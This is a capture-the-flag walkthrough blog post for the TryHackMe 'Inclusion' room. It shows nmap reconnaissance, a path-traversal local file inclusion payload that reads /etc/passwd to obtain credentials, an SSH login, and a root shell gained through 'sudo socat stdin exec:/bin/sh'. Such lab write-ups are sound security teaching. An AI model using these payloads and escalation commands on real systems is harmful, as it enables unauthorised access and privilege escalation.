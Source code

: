 ```yaml
---
title: "[TryHackMe] Inclusion - Walkthrough"
date: 2021-04-26T20:44:53+01:00
author: ascrivins
description: "Walkthrough and explanation of the Local File Inclusion vulnerability."
ShowToc: true
ShowBreadCrumbs: true
ShowReadingTime: true
ShowPostNavLinks: true
ShowShareButtons: true
categories: ["TryHackMe"]
tags: ["Walkthrough", "nmap", "Local File Inclusion", "ssh", "Privilege Escalation"]
cover:
   image: "/post_images/inclusion/banner.png"
---
```


# Intro
A walkthrough of the room Inclusion from TryHackMe.

Link to Room: https://tryhackme.com/room/inclusion

-----------------

# Reconnaissance  
## Scanning 
The first thing to do with an IP is perform an nmap scan to see the open ports and services running on the machine. 

    └─$ nmap -sC -sV [ip]   
    Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-26 20:07 BST
    Nmap scan report for [ip]
    Host is up (0.053s latency).
    Not shown: 998 closed ports
    PORT   STATE SERVICE VERSION
    22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   2048 e6:3a:2e:37:2b:35:fb:47:ca:90:30:d2:14:1c:6c:50 (RSA)
    |   256 73:1d:17:93:80:31:4f:8a:d5:71:cb:ba:70:63:38:04 (ECDSA)
    |_  256 d3:52:31:e8:78:1b:a6:84:db:9b:23:86:f0:1f:31:2a (ED25519)
    80/tcp open  http    Werkzeug httpd 0.16.0 (Python 3.6.9)
    |_http-server-header: Werkzeug/0.16.0 Python/3.6.9
    |_http-title: My blog
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

So we have an SSH server on port 22 and a http server on port 80. Next step is to look at the webpage. 

----------------

## Webpage
The webpage looks like this:

![webpage](/post_images/inclusion/webpage.png)

It is obvious from the room name and the content of this homepage that we are going to exploit a local file inclusion. 

This is where the name of the file presented to the user is taken from a parameter the user can control. Often this is a URL parameter so checking the links on this homepage we can find a possible exploit. 


Here on this homepage, we can find the link: [ip]/article?name=hacking by clicking on one of the "View Details" buttons. This looks to be vulnerable. 

--------------

# Exploitation 
## Local File Inclusion 
Simply changing the location of the file by the URL: [ip]/article?name=../../../../etc/passwd we get out the contents of the sensitive /etc/passwd file on the machine.

![webpage](/post_images/inclusion/passwd.png)

Organising this in a notepad, we find some credentials with the username, falconfeast:

![webpage](/post_images/inclusion/organised-passwd.png)

--------------------

## SSH Login
We can use these credentials to login through SSH:

    └─$ ssh falconfeast@[ip]     
    The authenticity of host '[ip]' can't be established.
    ECDSA key fingerprint is SHA256:VRi7CZbTMsqjwnWmH2UVPWrLVIZzG4BQ9J6X+tVsuEQ.
    Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
    Warning: Permanently added '[ip]' (ECDSA) to the list of known hosts.
    falconfeast@[ip]'s password: 
    Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 4.15.0-74-generic x86_64)
    
     * Documentation:  https://help.ubuntu.com
     * Management:     https://landscape.canonical.com
     * Support:        https://ubuntu.com/advantage
    
      System information as of Tue Apr 27 00:41:29 IST 2021
    
      System load:  0.17              Processes:           86
      Usage of /:   34.8% of 9.78GB   Users logged in:     0
      Memory usage: 64%               IP address for eth0: [ip]
      Swap usage:   0%
    
    
     * Canonical Livepatch is available for installation.
       - Reduce system reboots and improve kernel security. Activate at:
         https://ubuntu.com/livepatch
    
    3 packages can be updated.
    3 updates are security updates.
    
    
    Last login: Thu Jan 23 18:41:39 2020 from 192.168.1.107
    falconfeast@inclusion:~$ 

----------------

## User Flag
The user flag can then be found in the home directory and cat'd out:

    falconfeast@inclusion:~$ ls
    articles  user.txt
    falconfeast@inclusion:~$ cat user.txt
    60989655[Redacted]

--------------------

# Privilege Escalation
## Sudo -l 
The first check for privilege escalation is the sudo permissions list. This gives us a list of commands we can run as root and leverage our position. 

    falconfeast@inclusion:~$ sudo -l
    Matching Defaults entries for falconfeast on inclusion:
        env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
    
    User falconfeast may run the following commands on inclusion:
        (root) NOPASSWD: /usr/bin/socat

------------------

## Socat Shell
We can find out how to leverage this socat command by taking a look at GTFOBins. This listing is what we want to do:

![GTFOBins](/post_images/inclusion/gtfobins.png)

---------------

## Root Flag 
Perfoming this exploit then allows us to create a root shell. 

> **Note:** The GTFOBins listing says that this will not create a proper TTY shell so that is why there is no prompt. 

    falconfeast@inclusion:~$ sudo socat stdin exec:/bin/sh
    whoami
    root
    cat /root/root.txt
    4296410[Redacted]

-------------